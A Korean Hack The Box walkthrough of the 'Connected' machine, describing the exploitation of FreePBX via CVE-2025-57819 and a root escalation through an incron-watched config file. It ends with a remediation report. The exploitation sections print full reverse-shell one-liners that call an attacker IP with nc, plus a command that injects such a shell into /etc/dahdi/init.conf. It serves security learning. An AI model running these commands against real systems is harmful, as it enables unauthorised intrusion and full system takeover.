








# Connected

## 1. 개요 (Overview)
- 머신 링크: https://app.hackthebox.com/machines/Connected
- 설명: 리눅스 머신에 침투해, 자격증명 취득 후 루트 권한 장악
- 목표: root 권한 획득
- 찾아야 할 데이터: User Flag, Root Flag
- 난이도: Easy

## 2. 정보수집 (Reconnaissance)
1. 주어진 정보는 Target IP 주소만 존재하기에 nmap을 통해 port 확인
    - `nmap -sV -sC 10.129.195.18 > scan_res`
    ```text
    Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-06 23:57 -0500
    Stats: 0:00:23 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
    Service scan Timing: About 33.33% done; ETC: 23:57 (0:00:12 remaining)
    Nmap scan report for 10.129.195.18
    Host is up (0.20s latency).
    Not shown: 997 filtered tcp ports (no-response)
    PORT    STATE SERVICE  VERSION
    22/tcp  open  ssh      OpenSSH 7.4 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 4e:60:38:6f:e7:78:6c:ca:58:62:a1:f1:56:ae:8d:30 (RSA)
    |   256 12:41:55:26:9d:ad:3d:e8:bf:4e:31:aa:d7:d1:a5:d2 (ECDSA)
    |_  256 8e:b6:96:e0:21:83:5d:1d:ce:8d:e2:6a:dd:38:c6:75 (ED25519)
    80/tcp  open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
    |_http-title: Did not follow redirect to http://connected.htb/
    |_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
    443/tcp open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
    | ssl-cert: Subject: commonName=pbxconnect/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
    | Not valid before: 2025-11-30T14:07:27
    |_Not valid after:  2026-11-30T14:07:27
    |_ssl-date: TLS randomness does not represent time
    |_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
    |_http-title: 400 Bad Request
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 54.39 seconds
    ```
    - 확인되는 부분 중 redirect가 존재
    - 또한 ssl-cert가 존재
2. `/etc/hosts` 수정
    - `echo "10.129.195.18 connected.htb" >> /etc/hosts`
    - IP와 도메인, CN 추가
3. 사이트 방문
    
    확인 가능한 내용은 다음과 같다
    - Cookies : `PHPSESSID` 존재
    - FreePBX 16.0.40.7 사용
    - FreePBX Administration 클릭 시 로그인 모듈 출력
    - UCP 클릭 시 로그인 화면 출력

### 발견한 정보
#### 열린 포트
- 22/tcp
- 80/tcp
- 443/tcp
#### 웹사이트
- `http://connected.htb/admin/config.php` 메인 홈페이지
    - FreePBX 16.0.40.7 사용
    - FreePBX Administration 클릭 시 로그인 모듈 출력
- `http://connected.htb/ucp`
    - 로그인 화면 출력

## 3. 취약점 분석 (Vulnerability Analysis)
먼저 웹사이트의 취약점부터 찾기
1. `searchsploit FreePBX` 실행
    
    16버전에 존재하는 RCE가 있지만 `Authenticated`인 상태기에 다른 취약점을 추가적으로 구글링 진행
2. `FreePBX 16.0.40.7 vulnerability` 구글링
    
    - `CVE-2025-57819` 취약점이 존재
    - 하단 github exploit이 존재해 해당 코드 사용
3. `wget`을 통해 공격자 로컬로 다운로드

## 4. 익스플로잇 (Exploitation)
1. 공격자 로컬에서 `python watchTowr-vs-FreePBX-CVE-2025-57819.py -H http://connected.htb` 실행
    
    실행 완료로 RCE 가능 상태기에 리버스 쉘을 실행시켜 접속.
2. 공격자 로컬에서 `nc -lvnp 9999` 실행
3. `curl "http://connected.htb/this-is-an-ioc-not-actually-watchTowr-mbstl6efk7.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.16.215%209999%20%3E%2Ftmp%2Ff"` 실행
4. 공격자 로컬에서 연결 확인
    
5. python을 이용해 인터랙티브 쉘 획득
    
    파이썬2가 있는 것을 확인
    
    변경 완료

## 5. 포스트 익스플로잇 (Post-Exploitation)
진행하면서 user flag도 같이 탐색
1. root 권한까지 올릴 방법을 찾기 위해 linpeas.sh 전송
    공격자 컴퓨터에 linpeas가 있다고 가정
    1. 공격자 로컬에서 `python -m http.server 9998` 실행
    2. 피해자 원격에서 `wget http://10.10.16.215:9998/linpeas.sh` 실행
    - 참고: 작업 2일차로 연결을 새로 했기 때문에 ip 주소가 다름
2. `chmod +x linpeas.sh` 실행하여 실행 권한 부여
3. `./linpeas.sh` 실행
    ```text
    Readable files belonging to root and readable by me but not world readable (T1083)
    ```
    해당 부분에서 user flag 발견
    
    incron 설정 중 IN_CLOSE_WRITE를 이용
4. `cat /usr/sbin/sysadmin_dahdi_restart` 실행
    ```bash
    #!/bin/sh
    
    /etc/init.d/asterisk stop
    
    sleep 5
    
    /etc/init.d/dahdi restart
    
    sleep 5
    
    export PATH=$PATH:/usr/local/sbin/:/usr/local/bin/
    `which amportal` start
    ```
    - incron으로 파일의 변경에 따른 명령어 실행함
    - 스크립트를 확인 해보면 `/etc/init.d/dahdi` 서비스를 재시작
    - `cat /etc/init.d/dahdi` 스크립트 확인
    ```bash
    #!/bin/sh
    #
    # dahdi         This shell script takes care of loading and unloading \
    #               DAHDI Telephony interfaces
    # chkconfig: 2345 9 92
    # description: The DAHDI drivers allow you to use your linux \
    # computer to accept incoming data and voice interfaces
    #
    # config: /etc/dahdi/init.conf
    # 이후 생략
    [ -r /etc/dahdi/init.conf ] && . /etc/dahdi/init.conf
    
    if [ $system = redhat ]; then
        LOCKFILE=/var/lock/subsys/dahdi
    fi
    # 이후 생략
    ```
    - 실행 중에 `/etc/dahdi/init.conf` 설정 파일을 실행한다는 것을 알 수 있음
5. `ls -l /etc/dahdi/init.conf` 실행
    `-rw-r--r--. 1 asterisk asterisk 771 Jun  5  2023 /etc/dahdi/init.conf`
    소유자로 작성이 가능한 상태임을 알 수 있음
6.  root 권한으로 reverse shell을 실행하는 로직을 추가
    `echo "bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.215 9998 >/tmp/f'" >> /etc/dahdi/init.conf` 실행
    - `cat` 명령어로 잘 들어갔는지 확인
7. 공격자 로컬에서 `nc -lvnp 9998` 실행
8. 타겟 원격에서 `echo "Restart" >> /var/spool/asterisk/sysadmin/dahdi_restart` 실행
9. 잠시 대기 후 root 연결됨
    - root flag는 root 디렉토리에 존재

## 6. 보고서 (Report)
> `CVE-2025-57819` (FreePBX 인증 우회/RCE) + incron 스크립트 변조를 통한 권한 상승의 체인

### 요약 (Summary)
| 항목 | 내용 |
|------|------|
| 제품 / 영향 버전 | `FreePBX 16.0.40.7` (웹), `incron` 기반 `/usr/sbin/sysadmin_dahdi_restart` 감시 스크립트 |
| 영향 개요 | 웹 접근만 가능한 비인증 공격자가 FreePBX RCE로 쉘 획득 → incron이 감시하는 설정 파일 변조로 root 권한 장악 |
| 관련 CVE / CWE | [CVE-2025-57819](https://nvd.nist.gov/vuln/detail/CVE-2025-57819) (FreePBX 인증 우회/원격 코드 실행), [CWE-732](https://cwe.mitre.org/data/definitions/732.html) (중요 리소스에 대한 잘못된 권한 할당) |
| CVSS | 9.8 CRITICAL (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) |
| 공개일 / 패치 버전 | 2025.08.29 /`15.0.66`, `16.0.89`, `17.0.3`  |

### 원인 (Root Cause)
1. **FreePBX RCE**: `CVE-2025-57819` 취약점으로 인증 없이 FreePBX 웹 애플리케이션에서 임의 명령 실행이 가능함
2. **쓰기 가능한 감시 대상 파일**: incron이 `IN_CLOSE_WRITE` 이벤트를 감시하는 `/etc/dahdi/init.conf` 파일의 소유자가 `asterisk`로 되어 있어, FreePBX RCE로 획득한 `asterisk` 권한 쉘에서 해당 파일을 수정할 수 있음
3. **root로 실행되는 감시 스크립트**: 파일이 변경되면 root 권한으로 `/usr/sbin/sysadmin_dahdi_restart` → `/etc/init.d/dahdi`가 실행되며, 이 과정에서 `/etc/dahdi/init.conf`를 source하기 때문에 파일에 삽입한 명령도 root 권한으로 실행됨

### 악용 조건 (Conditions)
- 80/443 포트의 FreePBX 웹 서비스에 접근 가능해야 함 (인증 불필요)
- 대상 FreePBX 버전이 `CVE-2025-57819`에 취약해야 함
- RCE로 획득한 쉘이 `/etc/dahdi/init.conf`에 쓰기 권한을 가진 계정(`asterisk`)이어야 함
- `/var/spool/asterisk/sysadmin/dahdi_restart`에 값을 기록해 incron 트리거를 발생시킬 수 있어야 함

### 공격 흐름 (Attack Flow)
1. `nmap`으로 22(SSH), 80/443(HTTP) 확인 후 `/etc/hosts`에 `connected.htb` 등록
2. FreePBX 16.0.40.7 버전 확인 → `CVE-2025-57819` 취약점 식별
3. 공개 exploit 스크립트 실행 → 웹 애플리케이션에서 임의 명령 실행(RCE) 확보
4. `curl`로 리버스 쉘 페이로드 실행 → `nc` 리스너로 쉘 연결, `python` pty로 인터랙티브 쉘 전환
5. `linpeas.sh` 실행 → `/usr/sbin/sysadmin_dahdi_restart`를 감시하는 incron 설정 및 쓰기 가능한 `/etc/dahdi/init.conf` 발견
6. `/etc/dahdi/init.conf`에 리버스 쉘 명령 추가 → `/var/spool/asterisk/sysadmin/dahdi_restart`에 값을 기록해 incron 트리거
7. root 권한으로 실행되는 스크립트를 통해 삽입한 리버스 쉘이 실행되어 root 쉘 획득

### 영향 (Impact)
웹 애플리케이션 접근만으로 시작해 쉘 획득, incron 기반 설정 파일 변조를 거쳐 root 권한까지 이어져 시스템 전체가 장악됨.
FreePBX는 전화/통신 인프라를 관리하는 시스템이므로, 장악 시 통화 기록·내선 정보 등 민감 정보 유출 및 서비스 가용성 침해로 이어질 수 있음.

### 대응 방안 (Remediation)
- **패치 적용**: FreePBX를 `CVE-2025-57819`가 수정된 버전으로 업데이트
- **파일 권한 점검**: root 권한 프로세스(incron 등)가 감시/실행하는 파일의 소유자·쓰기 권한을 최소 권한 계정으로 제한
- **incron 설정 점검**: `IN_CLOSE_WRITE` 등으로 감시하는 대상 파일이 비-root 계정에 의해 변경 가능한지 주기적으로 점검
- **권한 분리**: 웹 애플리케이션 프로세스 계정과 root로 실행되는 스크립트가 참조하는 설정 파일 간 소유권 분리

### 참고 (References)
- [HackTheBox - Connected](https://app.hackthebox.com/machines/Connected)
- [CVE-2025-57819](https://nvd.nist.gov/vuln/detail/CVE-2025-57819)
- [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- [incron(8) man page](https://linux.die.net/man/1/incrontab)

## 7. 사용 도구/명령어 정리 (Tools & Commands)
### `incron`
리눅스 환경에서 시간(`cron`) 대신 파일 시스템 이벤트를 감시하여 특정 작업을 자동으로 실행해 주는 도구
- 주요 Event Masks
  - IN_CREATE : 파일 또는 디렉토리 생성
  - IN_DELETE : 파일 또는 디렉토리 삭제
  - IN_MODIFY : 파일 내용 수정
  - IN_CLOSE_WRITE : 쓰기 목적으로 열린 파일이 닫힐 때(파일 저장이 완료되었을 때)
  - IN_MOVED_FROM / IN_MOVED_TO : 파일 이동(출발지/목적지)

## 8. 핵심 고민 (Key Takeaway)
1. 상황: 첫날 왜인지 linpeas를 올리려고 할때 불가능한 상황
2. 해결법: 포트 번호를 바꿨어야 했음
3. 고민한 지점: 무엇이 문제였는지, 혹여나 exploit을 다른 방법으로 했어야했는지
4. 성찰
    - 머신시간이 종료되어 일시 중단 후 작업 순서를 되돌려봄
    - 문제는 다음과 같음 
        1. reverse shell을 위해 9999번 포트를 열어 연결한 상태
        2. linpeas를 올리기 위해 9999번 포트를 열어 서버를 또 열음
        3. 피해자 원격에서 `wget`을 통해 가져오려 했지만 멈춤과 동시에 실패
    - 위의 과정을 생각해보니 포트번호 충돌로 의심된다는 생각을 가짐
    - 다음 날 `python -m http.server 9998`로 변경해서 실행
    - 피해자 원격에서 wget이 성공됨
5. 후속 조치
    - 포트가 중복되어 겹치지 않도록 여러 포트를 사용
    - 기존 연결된 것도 겹치지 않도록 주의

---
[← 목차로](./README.md)